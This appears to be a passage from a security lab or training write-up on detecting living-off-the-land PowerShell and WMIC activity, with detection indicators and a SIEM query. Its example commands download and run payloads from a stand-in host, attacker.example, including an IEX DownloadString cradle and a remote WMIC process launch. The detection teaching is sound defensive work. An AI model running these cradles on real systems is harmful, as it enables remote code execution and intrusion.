 
## Task 4: Detecting LoL Activity

### PowerShell Detection

#### Attack Command Examples
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object System.Net.WebClient).DownloadString('http://attacker.example/payload.ps1')"

powershell -NoP -NonI -W Hidden -EncodedCommand SQBn...Base64...

powershell -NoP -NonI -Command "Invoke-WebRequest 'http://attacker.example/file.exe' -OutFile 'C:\Users\Public\updater.exe'; Start-Process 'C:\Users\Public\updater.exe'"
```

#### Detection Indicators
- IEX (Invoke-Expression) combined with DownloadString
- `-EncodedCommand` parameter hiding payload in base64
- `-Exec Bypass` circumventing execution policy
- Invoke-WebRequest for remote file download
- Invoke-RestMethod for API communication

#### SIEM Alert Pattern
```
index=wineventlog OR index=sysmon (EventCode=4688 OR EventCode=1 OR EventCode=4104)
(CommandLine="*powershell*IEX*" OR CommandLine="*powershell*-EncodedCommand*" OR 
CommandLine="*powershell*-Exec Bypass*" OR CommandLine="*Invoke-WebRequest*" OR 
CommandLine="*DownloadString*" OR CommandLine="*Invoke-RestMethod*")
| stats count values(Host) as hosts values(User) as users values(ParentImage) as parents by CommandLine
```

---

### WMIC Detection

#### Attack Command Examples
```powershell
wmic /node:TARGETHOST process call create "powershell -NoP -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker.example/payload.ps1')"

wmic /node:TARGETHOST process get name,commandline

wmic process call create "notepad.exe" /hidden
```

#### Detection Indicators
- Remote node targeting with `/node:` parameter
- Process call create for arbitrary command execution
- Process enumeration queries
- Hidden process spawning attempts
